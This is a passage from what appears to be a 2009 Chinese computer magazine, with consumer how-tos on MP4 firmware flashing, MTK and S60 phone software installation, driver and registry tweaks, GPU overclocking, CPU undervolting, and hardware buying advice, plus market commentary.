- 第四步：可以刷刚才改好的X690HD.HXF自制美化固件，也可以刷从集合包中解压出的死亡笔记版本，复制到MP4内存的根目录后退出USB。首先要保证MP4有2/3以上电量，并在开机状态下一直按住VOL-键，找个笔尖插入RESET键，过一会儿MP4就会黑屏，这时松开RESET键，等待华芯飞升级标志的出现，此时松开VOL-键，并不要触碰任何按键，等待升级成功。

目前的固件都是1.41版，不支持PDF的阅读，而具备此功能的V2.0固件又遥遥无期，那些PDF的漫画、杂志真的无缘了么？第三方CC1600的PDF阅读器也可以拿来用，去集合包里找到“X690HD+PDFReader.rar”安装之后就能看PDF了，1.41版固件还能玩最新的阿里巴巴，当然，集合包里也有泡泡龙、矿工、找茬，这些X690HD能玩的小游戏，电影看累了可以耍耍这些耐玩的小游戏放松下。

### 不怕刷固件失败

- 第一步：把“X690HD+ V1.2固件.rar”（1.4版本也可以）中的“X690HD.HXF”固件文件解压，打开“690HD&690HD+烧录工具”下的“系统烧录工具(CC1600 V2.15).exe”应用程序。单击烧录工具的“安装驱动”，驱动选择ChinaChipUSB驱动文件，直到显示安装完成，点击“确定”，BOOT文件选择IPL.bin文件，系统配置选择CC1600_cfg.dll文件，系统文件选择X690HD.HXF固件文件。
- 第二步：用USB线把歌美X690HD播放器和电脑连接好，一直按住确认键并用笔尖按下RESET键，等黑屏后松开RESET键，等待电脑显示查找到硬件。按住确认键千万不要松手，也不要按其他按键，等待烧录完成。

XHD690+加入了对OTG的支持，能直接使用移动硬盘和U盘来进行读写操作，目前测试最大支持到1TB的硬盘。对于U盘的连接难不倒X690HD+，但是移动硬盘供电要求比较苛刻，要注意的是必须使用外接电源才能使用。

（本刊记者/柴涛）

## MP4够雷 MID够台 MP4剑指MID

“双核”、“操作系统”，这些曾在电脑领域出现的词汇，现在越来越多的出现在MP4身上。在激烈的超便携智能设备市场争霸战中，MP4是否具备实力与传统的MID一决雌雄？

小知识：MID（Mobile Internet Device,移动互联网设备）是英特尔提出的概念，志在打造出超便携、高性能的微缩电脑，性能接近上网本，大小却和MP4一般。

背景声音一：瑞芯微，国内一流的微电子设备制造商，当它推出强悍的RK2808微芯片时，犹如一颗巨雷，狠狠的震惊了一次MP4业界，顿时呼声、叫好声四起。

背景声音二：英特尔，科技先锋的IT巨人，在前不久的秋季信息技术峰会上推出几款MID新产品，很显然它有十足的决心再次杀回超便携智能终端设备的市场。

小知识：ARM9系列处理器是英国ARM公司设计的主流嵌入式处理器，是一款采用5级流水线的高性能、低功耗的32位微处理器。

## ARM 助力 MP4 崛起

自2008年华芯飞推出CC1600主控芯片，MP4市场一直在不断的升级硬件配置，有一种不达到720P甚至1080P高清播放便不罢休的意味，此后数款采用CC1600主控机型的热卖，使众多芯片厂商意识到了MP4市场肥得如此流油。瑞芯微沉寂了一段时间，低调的推出RK2808主控芯片，从参数上看：65纳米低功耗工艺，ARM 600M+DSP 双核结构（ARM 600M嵌入式处理器负责运行操作系统，DSP芯片用来解码音视频）、支持Android和WinCE mobile 操作系统、支持SDRam、720P多格式视频解码、支持高像素照相摄像、OTG 接口。这一串剽悍的数字已经很恐怖了，严格意义上讲，它已超越了常规定义的主控芯片范畴，被广大网友簇拥并冠名为处理器。

RK2808重大的意义是第一个支持Android的中国芯，对Wi-Fi、3G上网支持也不在话下，安装MSN、QQ等聊天工具，可收发E-mail、支持Flash、Swf等格式，可播放网络动画，甚至还可以看CMMB网络电视。

## Android 分化 MP4 格局

不得不说，瑞芯微已经打算朝着MID市场迈进，现有的MP4功能已经达到瓶颈，不是说播放视频的性能不够强悍，而是消费者日益多元化的需求。大多数网友表示在传统的MP4上想安装一个软件、玩个游戏太难了，这些都是针对某一款主控芯片的固件来开发的，如果固件不升级，那么买到的MP4功能始终是那么一点。

新的MP4格局即将分化，一类是低价视频产品，继续走高性价比路线，偏向MP3风格满足低消费人群的需求，看电影、听音乐就足够了；另外一类发展成超便携智能设备，具备处理器与操作系统，更像是一个小型电脑。

然而与传统MID不同的是，MP4更加注重消费者的娱乐体验，屏幕素质好是传统MID无法比拟的优势，画质好、兼容格式多，采用Android系统，操作也更为简单，续航时间也大大超过传统MID。

Google Android G1属于传统型MID，与英特尔在IDF上发布Atom处理器的Lenovo、LG Electronics、NEC等几款MID属于一个类型，他们注重电脑一样的性能，并且搭配键盘使用。以智器Q5/Q7、驰为 W3000为代表采用触摸屏的娱乐型MID则与MP4差距不大，难以界定是增强型MP4还是MID，包括即将面世使用RK2808的台电T58。

## 值得期待的大战

《电脑爱好者》针对使用数码设备较为普遍的大学生群体采访，不少学生表示，如果采用操作系统的MP4价格再向现有的固件型MP4靠拢些，他们更愿意攒钱直接跳过普通MP4，来选购性能更强、可玩性能高，至少也算是智能机的MP4。而对于MID的看法，同学们纷纷表示价格难以接受，但还是有不少人表示对MID准专业的外型、性能比较感兴趣。的确，随着MP4向MID产品的升级换代，中星微、瑞芯微、君正都在摩拳擦掌准备分食传统MID市场，经过多年在MP4市场的打拼，相信国内微电子公司已经拥有足够的经验与英特尔抗衡。

MP4剑指MID时机越来越成熟，由于网络、价格、消费者的认识等方面，个人超便携智能设备很难能在短时间内崛起，但是局势依然明朗，MP4的高性价比、娱乐功能丰富等特点已经抢占了先机，MID能否后发制人，至于最后谁能争得宝座到已经成为次要，消费者在激烈的市场格局变化中得到最实惠的产品才是真理。

(本刊记者/柴涛)

## 菜菜老爸的智能山寨机

话说不久以前菜菜给老爸买了个电视广告疯狂宣传的某国产山寨机，终于尽了一回儿子的孝心。看着老爸鼓捣着自己的手机，又是手写又是发音的真是乐呵呵的。可是几天后问题来了，老爸不知道从哪里听说“智能机”这个名词，说是能聊QQ，还有象棋等游戏可以玩……

“菜菜，你给老爸买的这手机‘智能’不？”
“啊？你说智能机啊，这个叫MTK，你别说也算‘智能’机吧”
菜菜偷偷擦了擦汗……

## 老爸这个山寨机“智能”的起来吗？

虽然大家同为山寨手机，不过并不是所有的机型都是MTK（联发科研制开发的一个基础手机平台），也不是所有MTK都支持MRP格式的软件，所以在安装这些扩展的游戏软件之前，我们需要简单地测试一下手机。

小知识：MRP是什么，比JAVA好吗？
MRP 就是运行在 MiniJ 平台的对应格式，现在出厂的山寨手机一般都支持 MRP，这种格式占用内存小，比 JAVA 小的多。一些常用的软件都有 MRP 的格式，比如 QQ2008、飞信、播放器、还有很多的游戏。

首先我们需要判断你的手机是否为MTK，然后来检测手机是否支持MRP软件。

火速连接：
如何判断手机是否为MTK请参见本刊2009年第5期《并非菜鸟禁区，手机“闲置”功能大开发》

判断方法一：在待机状态下，输入“*#220807#”或者“*#777755999#”，看看手机是否有反应（*#220807#会打开一个游戏列表，*#777755999#会打开网页，还可能出现Factory……等提示的方框）；

判断方法二：查看手机内存卡的目录，看看是否存在一个mulgame、mythroad或者mrapp的文件夹；

判断方法三：查看手机游戏是否存在一个“更新列表”或者“已下载列表”的功能。

查看手机有没有可以自动下载、更新的选项是最直接的方法。

## 安装软件，才能算是“智能”

在确定手机支持MRP后，并非像S60、WM等系统一样双击安装即可，还需要一些前置操作才可以。
第一步：下载MRP软件并解压（下载地址：http://work.newhua.com/cfan/200921/mrp.rar）；
第二步：在根目录下建立文件夹，重命名为mythroad（此处采用mythroad为例），然后将dsm_gm.mrp和applist.mrp（需根据自己的屏幕分辨率选择大屏、小屏并进行重命名），两个系统文件拷贝至该文件夹。然后输入*#220807#，尝试是否能够启动程序菜单（如若无法启动的话，需将“mythroad”文件夹重命名为mulgame或者mrapp即可）。

小提示 大、小屏幕如何区分
一般是看屏幕分辨率，如果为320×240便是大屏，其它则为小屏幕。

第三步：此时在待机界面下输入“*#220807#”就能看到程序列表，分别是角色扮演、休闲益智、魔幻书城、软件应用等。由于我们还没有下载任何MRP软件，所以此时的列表中并没有任何软件或者游戏。

到此MRP的基础前置操作就完成了，接下来我们就可以进行软件的安装了（此处我们以QQ2008为例）。

第一步：下载QQ2008 MRP版并解压（下载地址：http://work.newhua.com/cfan/200921/mrpqq.rar）

第二步：在mythroad目录下建立一个名为mor_list17的文件夹，将解压的QQ2008MRP文件拷贝到mor_list17文件夹中。此时在待机界面输入“*#220807#”，进入应用软件列表就能运行QQ2008了。

- 不同类型游戏、软件存放目录
  - 角色扮演 mor_list9
  - 休闲益智 mor_list10
  - 动作格斗 mor_list11
  - 棋牌博彩 mor_list12
  - 飞行射击 mor_list13
  - 策略养成 mor_list14
  - 运动赛车 mor_list15
  - 应用软件 mor_list17

“游戏、QQ、Skype等等，咱一概不缺谁，老爸！来来，还你的‘智能’机！”

## Windows XP下Y550调节亮度的困扰

买了三个月的联想IdeaPad Y550本本一直用的是Windows XP，最近想用CUDA和物理加速功能，所以更新了GT130M的官方驱动。但是，新驱动带来新功能的同时，又出现了一个很要命的问题——无法调节亮度了。

亮度总是最高让待机时间大大缩短，而且感觉最高亮度下也有点儿刺眼。经过摸索，终于找到了问题的症结。

下载官方驱动（下载地址：http://support1.lenovo.com.cn/lenovo/wsi/Modules/DriverDetail.aspx?ID=15408）并正常执行解压安装动作，但是在安装欢迎界面时，选择“否”取消安装。然后在系统盘符根目录下找到NVIDIA文件夹，找到其中的NV4_DISP.INF文件，用记事本打开。

找到“[nv_miscBase_addreg__01]”一行（在记事本用按Ctrl+F查找该关键字），在这一段的末尾倒数第二行加入“HKR,,EnableBrightnessControl,%REG_DWORD%,1”，修改正确后保存退出。

运行文件夹中的Setup程序安装驱动，重启后Y550就能正常调节亮度了。

## 点燃Intel GMA显卡 游戏也能玩到爆

用上网本的玩家、用CULV轻薄本的用户，还有很多普通采用Intel集成显卡的消费者，是不是都悔恨自己当初的选择，Intel集成显卡性能怎么这么烂？这样的抱怨可不在少数，今天，让我们一起来点燃Intel GMA显卡，用它玩游戏，一样可以很爽哦！

### 第一步

下载GMABooster 2.1a (下载地址: http://down.tech.sina.com.cn/content/43166.html)，安装完毕后运行软件。以上网本用的GMA950显卡为例，点击主界面下拉菜单，其中共分为四档，GMA950显卡默认为166MHz，我们将其调节到250MHz。一般来说，这样将增加约20%的性能，但发热量只增加约10%左右。当然，如果调整到400MHz也是可以的，只是这将增加约40%的发热量 (见图1)。

### 第二步

右键单击桌面选择“属性→设置→高级”打开Intel集成显卡的控制面板 (前提是正确安装Intel集成显卡驱动程序)，在这其中找到OpenGL设置。我们最主要的优化手段就在这里了 (见图2)。

- ★三重缓冲: 该项设置主要是为了优化垂直同步开启后的设置，建议默认
- ★翻转策略: 翻转策略是渲染时翻转后对缓冲区的操作方式，建议设置为“位块移动”，这样可以节约大量的显卡资源，实现加速
- ★深度缓冲策略: 该项号称可以在16bit色时提高速度，24bit色是提高画面质量。显然，选择前者是最理想的设置，增加速度是现阶段的主要需求

### 第三步

在游戏中尽量选择使用OpenGL接口，比如在魔兽争霸游戏中，首先建立一个魔兽争霸的快捷方式，然后右键单击选择“属性”，在目标的最后加上 (空格) opengl，然后单击应用即可 (见图3)。

性能好，这是必须要认识到的一点，一些最新的体育类游戏 (如FIFA、NBA LIVE系列) 相对更容易在集成显卡上流畅运行，而像《使命召唤》等类似的大型3D游戏就比较困难了。

### 小知识：OpenGL和Direct3D的作用

OpenGL和Direct3D是一种接口，在3D游戏中，它们主要的作用是将运行游戏时，游戏程序提出的计算需求翻译给硬件，从而实现更高效率的计算。这两者都是当前图形接口程序的主要标准规范。

经过超频优化，3Dmark 2006的性能单项测试中，未超频时Pixel Shader仅有9.471fps，超到250MHz时性能大幅度提升到16.127fps。在此基础上运行魔兽争霸，默认游戏设置时为26fps，将显卡程序进行优化后，并选择OpenGL接口时，游戏平均运行速度达到了42fps，提升就更加明显了，你难道不动心吗？

(北京/TKD)

## 大牌就是系列多：微星篇

微星的主板和显卡产品在DIY市场可说是无人不知，而微星的笔记本电脑产品同样种类丰富，覆盖了从上网本到顶级性能的全线市场。由于微星的笔记本电脑产品线多达8条之多，这次我们重点来看看其中X-Slim、Wind Netbook、Gaming、Value和Classic等最主要的几个系列。

X-Slim可以说是最能体现微星技术实力的系列，以X开头的产品型号不但定位高端，还给人很明确的“轻薄”感觉，与Macbook Air、Thinkpad X300等同属一类。这个系列覆盖了从13英寸到15英寸的多款产品，每一款在各自的市场中都属于最轻薄的范畴，并且无论是功能、性能还是外观设计都堪称顶尖级别。

Wind Netbook就是我们常说的上网本了，娇小的身材加上超长使用时间，完全能够满足这个移动信息时代的需求。而Gameing系列从名字上就能看出来是面对游戏玩家的，深黑色机身点缀着一条火红的镶边，并且还专门为游戏玩家进行了各种优化，例如将ASDW四个键标识出来，机身上方安排的Turbo键可以瞬间增强系统性能，单独设置小键盘数字键等等，非常周到。

Value系列显然是为注重性价比的用户们推出的，这个系列舍去了很多并非人人需要的功能，而将成本投注在CPU、屏幕、硬盘等对性能影响最大的部件上，因此这个系列的笔记本电脑不但价格低廉，且性能仍然很不错。

Classic系列当然就是最标准的笔记本电脑了，价格合理、功能完备、性能强大、用途多样等等形容词放在这个系列上都很合适。特别是配备了微星独家的ECO省电节能系统，能够在游戏、电影、投影、办公以及省电这五种模式中随意切换，在满足各种应用场景的同时有效延长笔记本的使用时间。

各系列产品请浏览：http://www.msi-china.com.cn/index.php?func=prodpage1&maincat_no=135

## Intel 酷睿i5/i7上市 又见ES版CPU

最近随着Intel发布了酷睿i5/i7，ES版CPU又冒出不少，要知道相比于盒装的近四千元，i7 870 ES版仅需两千出头，价格确实很诱人。

### 1. 盒装、散装、ES 版是什么？

还记得之前黄静和华硕的纠纷吗？就是由一块ES版CPU引起的，在超频玩家的心目中，只有ES的CPU才是王道，不仅便宜，部分极品还没有HT和倍频限制。ES就是送给OEM厂商测试的CPU，一般都不回收的，所以测试完了就有人拿出来卖了，主要以Intel的CPU为主。正是因为Intel负责任，送了很多ES给厂家测试，所以正式版出来的时候兼容性好，就是大家说的稳定。

### 2. 在卖场如何选放心的商家？

CPU并不存在保修的概念，高度集成的封装芯片坏了也没法修，保修就是保换，只要商家信誉够好并且是正规店就可以放心购买，那种看不起眼的小店，很可能过两个月就跑路了。CPU利润不高，但是平均价格较贵，柜台里能放着数十块的CPU的卖家，在电脑城每一层有这样规模的顶多两三家。观察一会儿你会发现时不时的人去柜台拿货，还是不给钱的那种，并且上去跟他砍价多半会不理你，基本上就可以断定这是一个很有实力的卖家。

一般从正规渠道购买的，带包装盒的CPU，当然就是传说的盒装CPU了，说起盒装CPU就为买着放心，保修期通常为三年，然而算上包装费，还要附带一个性能着不佳的散热器，肯定是要多花钱的。至于散装CPU，通常商家会用一个塑料小盒包裹，一般都能得到为期一年的常规保修。

**小提示：**
- ★判断是否全新散装CPU时要观察针脚有无明显磨损，顶盖与基板处遗溜有没有遗留的硅脂，在开发票时要注明质保一年以及CPU的编号。
- ★ES虽好，只适合玩家型人群，喜欢烧包超频的朋友，普通消费者还是选择稳定性好的散装CPU最合适，毕竟盒装的不划算，散热器性能太弱还要另外购买。

(文/ul)

## 寻找CPU的最低电压

### 给CPU降压降频有用吗

笔记本本太热，又不能像台式机一样换更好的散热器，CPU在工作时会产生不小的热量，解决散热是个头疼的问题，究其热量的根本就是电能转换做功过程中的损耗，终极解决办法就是给CPU降低电压。

### 降压很容易

降压之后，温度低了，用电的时候也更省电了，风扇也不那么吵了，总好处多多。怎么降压？在主板的BIOS中调节有一定局限性，我们使用RMClock（http://www.x-hins.cn/article.asp?id=318）可以在Windows下方便地调节，还需要使用的是软件CPU-Z（监测CPU运行信息http://www.onlinedown.net/soft/2775.htm），wPrime（测试CPU稳定性http://download.pchome.net/system/sysenhance/download-63955.html）。

## 吃得少干活照样卖力

第一步：我们以Intel Core2 T6400进行测试。运行绿色版RMClock，首先显示的就是当前CPU的信息。编辑RMClock_Tweaks.reg文件，找到‘UnlockVid’=dword:00000000，将这些0改为1，保存导入注册表，可选电压值的列表最低值就变成了0.8250V了，这样我们可以选择更低电压，从而得到更低的温度。

第二步：点击RMClock‘方案’选项，在展开的界面中，可以从CPU-Z看到默认情况下该CPU支持的所有倍频，可调范围在6.0×~10.0×之间，而电压在0.8250V~1.6125V之间，运行CPU-Z，发现电压显示为0.925V，以它显示的为准。由于不调节倍频就不会影响CPU的主频以及实际性能，为了追求最凉爽的状态，把T6400的倍频锁定在6.0×之后降低电压，实现保持1.2GHz满足正常办公上网使用。然后在‘VID’选项中为6.0×选择一个较低的电压，考虑到系统稳定性，我们先降低0.05V，先选0.9875V（此电压在CPU-Z中的实际值为0.8750V）。

第三步：接着点击左边‘方案’的‘按需配置性能’子选项，勾选‘AC电源’和‘电池’下的‘使用P-state转换’，然后在下面的列表中勾选6.0×倍频对应的项目‘6.0×0.9875V’，然后点击‘应用’即可。以后每次降低0.05V，直到出现蓝屏或关机现象。用RMClock降电压非常安全，不会损坏硬件。

### 稳定性测试

CPU的电压降为0.9875V，在待机状态下温度为28.2℃，运行wPrime，点击Run 32M Benchmark，测试中的温度将会立即提升，结束时温度为41℃。如果顺利通过，可以把CPU设置在更低的电压下运行，直到测试失败。

以上方法同样适用于台式机CPU，推荐在原始倍频下的降电压方法，当然降低倍频会有更好的效果，可以多尝试几次，找到温度与速度的平衡点。

（文/柴涛）

## 便携年轻人的消费新主张

每天人们都在讨论着关于硬件发展变化的词语，临近年尾，厂商也展开了年内最新一轮的新品发布。当前最热的词语有什么？随机在电脑卖场采访，从店铺老板到普通消费者，大多数会提到这么几个词：轻薄本、高清视频之类的。显然，今年以Intel主导的CULV超轻薄本的蓬勃发展让众多普通消费者也能将这些看起来有点技术性的词语烂熟于心。

### 主张消费多元化

恰逢10月eMEX 2009中国苏州电子信息博览会开幕，记者来到苏州深入采访，在明基展台前，与偶遇的消费者进行随机采访，我们发现，大多数消费尽管在言辞上有些许差异，但总体上看与明基中国总经理洪汉青先生的观点颇为一致：‘我们不去探讨CULV轻薄本究竟是第一台PC还是第几台PC，关键是符合自己的使用需求，这才是最重要的。消费多元化是当前市场的一个显著特征，越来越多的消费者需要的是一台符合自己需求的产品，而不是去迎合产品本身的特质。’

CULV轻薄本究竟是第一台PC还是第几台PC，关键是符合自己的使用需求，这才是最重要的。消费多元化是当前市场的一个显著特征，越来越多的消费者需要的是一台符合自己需求的产品，而不是去迎合产品本身的特质。以此次发布会发布的两款CULV产品为例，S35拥有11小时超强续航力，是移动商务人群的首选；最新浪潮触控屏设计U121便携本，一触即可体验；现场展示的还有S43高清游戏全能本等，可以充分满足不同的使用需求。

### CULV是下一个上网本吗

明基加入CULV产品竞争的大潮，难道就不怕被同行业者比下去吗？从上网本时代的国内第四名，CULV平台下，明基究竟能有多少出人意料的成绩？

记者在与会前曾了解到，与市场喧嚣的宣传不同，目前CULV的销量并不理想，远远不及上网本热卖。对此，洪汉青先生表示，目前CULV市场大家都期望它能够赚钱，对消费者来说只有一个待机时长的优势，还不足够让人满意。从另一方面来讲，上网本总价便宜，又轻便，显然这是不够的。只有进一步去完善它，让它能够承载、满足更多的使用需求，同时又能保持现有的基本特点（如待机时长、总重量），才有可能让消费者去接受。

同时，洪汉青先生认为，CULV平台的用户群体有望达到50%左右。

### 满足年轻人的消费新主张

在明基轻薄本发布现场，明基代言人潘嘉丽也登场亮相助阵，选用带有鲜活特点的年轻偶像正是明基近年来选择产品代言人的一贯风格，无疑，明基期望的是通过鲜活的代言人形象，进一步推广自己在消费者心中的品牌形象。

记者拿到了这样一份调查数据：明基目前的笔记本产品消费主体年纪25到35岁，这一部分的人群占到70%，人群特征多为上班族、商务人士和大学生；而这其中，男性消费者占到了65%左右，显然，这与明基多年来从产品到形象代言的深度推广密不可分。

（北京/TKD）

## 快来看看你的本本能不能升级Windows 7

本本系统也能升级吗？答案是能，不过，我们说的可不是那些在市场中为你私自安装盗版系统的经销商。最近随着Windows 7的正式上市，很多用户也开始关心起来，最先承诺我们可以升级Windows 7的本本厂商，能真正兑现承诺吗？

据我们的不完全统计，包括联想、戴尔、华硕、Acer、惠普等诸多厂商都已经正式启动了系统升级的服务举措，需要注意的是，并非所有产品都可以升级，首先是系统上有一定限制，目前来看主要集中在Windows Vista home Premium、Business、Ultimate三个版本上，如果你是Basic版的本本，即使符合厂商提出的日期限制，也不能够进行升级。此外，升级的方式也是版本对等，不能跨越版本升级，这也是必须要注意的事情。

| 品牌 | 戴尔 | 华硕 | Acer | 联想ideapad/Thinkpad | 惠普 | 索尼 | Gateway |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 购买时间 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 | 2009年6月26日至2010年1月31日 |
| 可升级版本1 | Windows Vista home Premium | Windows Vista home Premium | Windows Vista home Premium | Windows Vista home Premium | Windows Vista home Premium | Windows Vista home Premium | Windows Vista home Premium |
| 可升级版本2 | Windows Vista Business | Windows Vista Business | Windows Vista Business | Windows Vista Business | Windows Vista Business | Windows Vista Business | Windows Vista Business |
| 可升级版本3 | Windows Vista Ultimate | Windows Vista Ultimate | Windows Vista Ultimate | Windows Vista Ultimate | Windows Vista Ultimate | N/A | Windows Vista Ultimate |
| 可升级版本4 | N/A | N/A | N/A | N/A | N/A | N/A | N/A |
| 升级费用 | 免费、运费和人工费 | 未标明具体费用 | 892元 | 88元 | 视发货地点而定的运费 | 99元 | 88元 |
| 细节 | 注册截止日期为2010年01月31日。注册的客户会在升级程序可用后收到电子邮件通知目前符合升级条件的戴尔笔记本电脑有：Vostro 1015/1088/1014/1220/1320/1520/1720 Latitude Z/E4200/E4300/E5400/E5500/E6400 ATG/E6400/E6500/XT2 Tablet | 华硕提供的Windows 7升级计划套件包含一张Windows 7升级DVD、一本安装手册，以及一份驱动程序光盘（视产品机型而定）。华硕将在微软正式推出Windows 7后更新网站通知并开始出货 | 升级订单必须在2010年1月31日之前申请，升级包在2009年10月后才会发货，以微软发行日期为准，交货需要7到10个工作日 | 升级申请必须在2010年1月31日前提出，升级工具包将在升级申请处理日期后大约1~2周内发货 | 升级申请必须在2010年1月25日前提出，且必须于2010年3月1日前提供机器购买日期、型号、序列号及购买凭据。升级工具包将于成功验收购订单7-14个工作日之内发货给用户。现场升级服务和一些机型的升级包不包括HP升级介质DVD | 升级范围限定在国内购买的2009年春季机种/2009年夏季机种并预装了Windows Vista Home Premium/Vista Business操作系统的VAIO个人电脑最终用户，Sony VAIO Windows 7升级工具在线订购网站有效期为2009年9月22日至2010年3月31日 | 升级订单必须在2010年1月31日之前申请，升级包在2009年10月后才会发货，以微软发行日期为准，交货需要7到10个工作日 |

目前提供更换升级服务厂商的具体服务措施，注意细节哦！

# IDE口老本本换硬盘 警惕二手充新

-   全新硬盘 120G/7200转/8M缓存 IDE 2.5寸 参考价430.00
-   全新硬盘 160G/7200转/8M缓存 IDE 2.5寸 参考价480.00
-   全新硬盘 250G/7200转/8M缓存 IDE 2.5寸 参考价500.00
-   二手硬盘 120G/7200转/8M缓存 IDE 2.5寸 参考价200.00
-   二手硬盘 80G/7200转/8M缓存 IDE 2.5寸 参考价150.00

不少2006年之前的老本本都是采用IDE接口的，这让升级硬盘变得尤为困难。目前硬盘已经全面转向SATA接口，IDE接口的笔记本硬盘大面积停产已经是不争的事实。但是老本本用户也面临着尴尬——现在软件、电影容量越来越大，2006年之前的本本，配置多是80GB的硬盘，容量实在太小了，而且性能也差不少。真正到想要升级的时候去搜索，也不过零星的几个品牌。这时候，你就需要格外留意了。目前只有WD和三星还在生产IDE接口的笔记本硬盘，希捷、日立基本都已经停产了。容量上，三星主要是160GB的产品，WD则有160GB和250GB可供挑选。其中160GB的产品全部为单碟设计，WD的250GB多为双碟产品——务必记住，单碟容量越大，性能越好，这也是为什么现在的单碟160GB硬盘的性能可以达到老款双碟80GB笔记本硬盘2倍的原因所在。最后要提醒的事情是，老本升级硬盘的成本已经相当昂贵，同容量IDE产品的价格是SATA版本产品的两倍左右，一定要做好预算再下手哦！

# 能看电视的高清LCD显示器

### 高清是个趋势

购买LCD显示器最好支持1920×1080的全高清分辨率，不仅在看高清片源时能够达到完美的点对点效果，画面也更加细腻。现在ADSL 2MB网络已经十分普及，几百兆的RMVB片源已经不能满足大屏显示器的需求，更多的朋友愿意多花些时间去下载720P甚至1080P的高清片源。况且500GB硬盘“白菜”一样300多元的售价，下载速度的提升，高容量硬盘的普及，视觉感官的追求不断催生高清时代的飞速到来。

### 一千多元怎么选

我们在市场上可以看到一千多元的液晶电视，这些电视多是20英寸左右。液晶面板无法与40英寸+的主流IPS面板比较，显示效果有很大折扣。与普通LCD显示器的面板无异，只是内置了电视接收电路，并且大部分产品都是固化在电路板上，一旦损坏维修十分麻烦。有些低价或者是早期型号的液晶电视竟然还没有DVI接口，不能当做电脑显示器来用，而能达到1920×1080分辨率的产品在这个价位更是少之又少。在这种对低价液晶电视十分不利的环境下，我们只有转投带电视功能的全高清LCD显示器的怀抱。由于电视功能部分是模块化设计，维修时也十分简单。最重要的是接口十分丰富。随着液晶显示器产品的不断更新，普通显示器也能看电视。

### 普通显示器也能看电视

已经买完显示器了，却想实现看电视的功能怎么办。天敏宽屏高清版LT290HD，支持1080P高清色差输入，支持24寸宽屏液晶显示器，16：9，16：10，4：3多种比例显示。只要260元，抛弃电脑主机，直接与显示器连接，不用开电脑就可以看电视。显示器为高清宽屏的话，就一定要买支持高清宽屏显示器的电视盒，比如天敏宽屏高清版LT290HD。

> 小提示：
> 尽量选择附带HDMI接口的LCD显示器，可以与PS3、XBOX360等游戏主机连接，另外显示器的响应时间快，更适合打游戏。

（文/柴涛）

# 老驱动的第二春

前不久新买了一台平板液晶电视放在卧室，准备好好地体验大屏幕的震撼视觉效果。播放早已下载好的碟版《变形金刚2》时，液晶电视只有画面却没有声音。液晶电视是通过HDMI与电脑相连接的，于是看电影的专用机，配置有些老，显卡还是当年很火的ATI Radeon HD3650。开始以为是液晶电视设置问题，用遥控器控制“AV连接”菜单把音频更改为HDMI，并且设置为自动，依然是有画面无声音。排除液晶电视的问题之后，考虑到声音是显卡内置的音效芯片来输出的，HDMI线出问题的可能性不大，看来问题出在显卡上。在设备管理器中发现显卡和声卡都是正常运行，显卡内置的音效芯片ATI HDMI Audio也显示正常。找到声音属性设置，发现声音播放默认使用的是ATI HD Audio rear output音频设备，改为主板上集成声卡后播放高清电影，此时能听到声音，但声音并不是液晶电视发出的。无奈之下尝试安装老驱动，安装催化剂8.3版驱动后终于能正常使用，注意要删除新版驱动。原来早期的Radeon HD3000系列显卡HDMI电路与现在不同，造成新驱动不能兼容老显卡的音频输出，实际上一些老型号的显卡使用老版本驱动是最稳定的，新版本驱动只对新产品做优化，放弃了对旧有产品的更新支持。

（文/HY）

# 卡片机也玩背景虚化

好兄弟向我求救，非要我教他怎么才能拍出背景虚化的照片，要不然他女朋友暴躁起来可招架不住。这还不简单么，找个单反，换上中长焦拉满焦距，自动档手动档无所谓，保证虚化效果能满足MM需求。然而被他直接否定了，问题是他手中只有卡片机。

### 大光圈搭配长焦距

背景虚化之后的照片，突出主体，尤其适合拍摄人像、静物。那种亦真亦幻的效果是女生们的最爱。背景虚化是卡片机的弱项，与单反不能相比，单反具备可变焦长镜头，本身光圈也很大，所以很占优势，而卡片机因为焦距短，一般只有4~7倍光学变焦，拍摄完全虚化背景效果比较困难，但也不是不能出效果。

实际上记住要点，使用最大光圈配合最长焦距，把卡片机的性能发挥到极限。在此之前，要掌握好前提条件，就是光线充足，因为只有在光线充足的环境下，才能保证卡片机最大光圈和高速快门（至少在1/125秒以上）。光线强则曝光时间短，光线弱则曝光时间长，这里曝光时间可以理解为快门开闭时间。





> 小提示：三脚架很实用，要求不高的话也可以使用独脚架，重量轻方便携带，平时使用起来很顺手，但是夜间拍摄烟火等需要长时间曝光的时候，还是三脚架更为适合。

（文/dark）

# 批量安装好帮手

手机也玩批量安装软件？难不难？会对手机造成影响么？

智能手机的好处就是能安装各种各样的应用软件，拓展手机的功能，然而不可避免的一个问题是，智能手机在使用一段时间之后，会出现越来越慢的毛病，格机是唯一的解决办法，然而格机之后，面临复杂繁琐的各种程序安装，我们早已疲倦。

本文涉及软件均有下载：http://work.newhua.com/cfan/200922/plazh.rar

### 终极大招之 S60 系统篇

批量安装软件Lfile v1.0简体中文版需要破解之后才能使用。

第一步：安装PythonForS60 3rdEd.sis，这个是PY平台（俗称大蟒蛇平台，支持众多以Python开发的各种程序），建议装在C盘，装好后是没有图标的，不必在意，直接进行下一步（见图1）。



第二步：安装破解程序Quick Hack Kit.sisx，选择可选文件时，需注意自己的机型，勾选BiNPDA Security Manager v1.10（SecMan），这个是破解选项，选择机型时可以在网上查找手机型号对应的系统版本。N73\N93\E65为S60 OS9.1选择InstallSever 9.1；6120C\N82\N95为S60 OS9.2选择InstallSever 9.2；9.3，N78\N79属于S60 OS9.3也是选择InstallSever 9.2。





9.3（见图2）。

第三步：安装Lfile v1.0并在存储卡上建立两个文件夹，一个命名为“安装到C盘”，可以把想安装在C盘上的程序放在这里，如UC桌面、手机主题等。另一个文件夹命名为“安装到E盘”，不常用的软件就可以放在这里。（见图3）自己选择要安装程序的路径，便于管理。

第四步：运行Lfile v1.0，找到建立的两个文件夹，进入设置点击安装选择安装到磁盘C或者是E，顺序安装就可以。（见图4）

### 终极大招之 WM 系统篇



解压智能安装CAB包.rar后安装，操作要比在S60系统上简便很多，把软件放到要安装的CAB文件夹中，运行之后把需要的软件选上，就会自动安装到卡里面。（如图5）

不必守在手机旁，时不常地按下按键，现在看会电影等待自动安装完成，格机变得不再痛苦。

（文/小贝）

# AMD发狠 5000+核变

AMD总是喜欢爆出一点猛料，让消费者欢心买单，当初黑盒5000+解锁倍频，优异的超频性能热卖到脱销，如今借着45nm速龙II X2系列抢夺不少市场，形势一片大好之下又放出一颗重磅炸弹，45nm版速龙双核5000+。

### 双核裂变四核

